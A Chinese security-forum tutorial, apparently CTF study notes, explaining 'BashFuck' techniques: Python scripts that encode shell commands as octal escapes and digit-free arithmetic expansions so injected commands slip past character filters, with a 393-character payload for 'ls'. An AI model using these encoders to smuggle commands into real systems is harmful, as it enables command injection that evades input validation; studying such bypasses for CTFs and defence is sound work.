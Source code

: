 ```yaml
---
title: 奇安信攻防社区 - BashFuck 学习
url: https://forum.butian.net/share/2792
clipped_at: 2024-03-20 09:36:50
category: default
tags: 
 - forum.butian.net
---
```



# 奇安信攻防社区 - BashFuck 学习

# 0x0e 前言

本来是在 CTF 刷刷题目，然后有个知识点不太明白所以就去找着了 lazy 师傅问了一下，结果发了一个 bashfuck 的知识点过来（x，本来一个简单的绕过却有了新的思路，索性来记录一下。

# 注意：因为 debian、Ubuntu 系统的 sh 软连接是到 dash 的，centos 的 sh 软链接连接到 bash，但是 kali 的 zsh 不是很兼容 dash 所以 IFS 就解析不了，还是直接用空格代替即可

# 0x01common\_oct

这个就是最常规的可以用十六进制，或者八进制来执行命令

```python
sum_data = ''
str1 = input("请输入要转化的命令：")
str1 = str1.strip()  # 去除首尾空格
data_len = len(str1)  # 判断总长度来循环
for i in range(data_len):
    data = ord(str1[i])
    if data == ord(' '):  # 检查空格字符
        sum_data += "'$IFS$'"
    else:
        data_8 = oct(data)[2:]
        final_data = '\\' + data_8
        sum_data += final_data
print("common_oct")
print("$'" + sum_data + "'")
```

出来直接使用即可，在 kali 里面的 ifs 直接用空格代替即可  
example：

```shell
$'\154\163' #= ls
```

# 0x02bashfuck\_x

运用到的原理就是算术拓展 `$(())`，这个的返回值为 0，并且可以有这种用法 `$((1<<1)#2binary)` 来构造出一些命令  
还是拿 ls 来举例子，如果不去利用二进制来构造可以这么写

```shell
"$"''\''\'$(($((1))54))'\'$(($((1))63))\'
```

构造出来就是 common\_oct 的写法  
然后这里也可以使用二进制来构造

```shell
$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

因为相对于前面的你构造出 54 啊或者是其他数字比较麻烦，而在探姬师傅的 wiki 下面说明了几种可以表示 0 和 1 的方法，所以用 01 来代替能利用 py 快速的得出结果并且可以实现无数字来打  
一些对应：

```shell
>echo ${#}
>0
>echo ${##}
>1
>echo ${#_}
>1
>echo ${_}
>1
>echo ${?}
>0
>echo ${?#}
>1
```

等等都可以用来构造  
下面附上相关函数

```python
def bashfuckx():
    final_str1 = ''
    final_str2 = ''
    final_str3 = ''
    str3 = input("请输入要转化的命令：")
    for j in str3:
        final_str1 += '$0<<<$0\\<\\<\\<\\$\\\'' +f'\\\\$(($((1<<1))#{bin(int(get_oct(j)))[2:]}))'+ '\\\''
        final_str2 = '$0<<<$0\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}')+ '\\\''  # 用 ${##} 来替换 1
        final_str3 = '${!#}<<<${!#}\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}').replace('0', '${#}')+ '\\\''  # 用 ${#} 来替换 0
    result = input("请输入你要的格式\n1 代表直接转化\n2 代表替换 1\n3 代表全部替换（无数字）")
    if result == '1':
        print(final_str1)
    elif result == '2':
        print(final_str2)
    elif result == '3':
        print(final_str3)
    else:
        print("无效输入！")
```

然后这里需要解决一个问题，你会发现你直接执行命令是没办法执行的，这里探姬师傅也是给出了相关的连接  
[https://www.gnu.org/software/bash/manual/html\_node/Shell-Expansions.html](https://www.gnu.org/software/bash/manual/html_node/Shell-Expansions.html)  
总的来说就是扩展顺序，我们在八进制转义的时候已经扩展了一次，所以后面不会再次解析  
所以这里就用标准输出来完成解析

```shell
/bin/bash<<<
```

所以最后的 playload 的前面要加上：`$0<<<`  
`$0` 可以表示当前脚本的文件名，在终端中，`$0` 其实就是 bash 本身。

# 0x03bashfuck\_y

这里和上面的都差不多只是对 - 1 的取反进行了利用

```php
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

这样就可以使用 `$(())` 去构造 `$'\xxx\xxx\xxx\xxx'`

再引入我们前面提到的，变量赋值，我们就可以轻松的用 `$(())` 拿到 sh

```shell
bashFuck = ''
bashFuck += '__=$(())'  # set __ to 0
bashFuck += '&&'  # splicing
bashFuck += '${!__}<<<${!__}\\<\\<\\<\\$\\\''  # got 'sh'
# bashFuck = __=$(())&&${!__}<<<${!__}\\<\\<\\<\\$\\\'
```

得到我们第四种 playload:

```shell
Command:ls
Charset : ! $ & ' ( ) < = \ _ { } ~
Total Used: 13
Total length = 393
Payload = __=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

参考文章：  
[https://github.com/ProbiusOfficial/bashFuck?tab=readme-ov-file](https://github.com/ProbiusOfficial/bashFuck?tab=readme-ov-file)

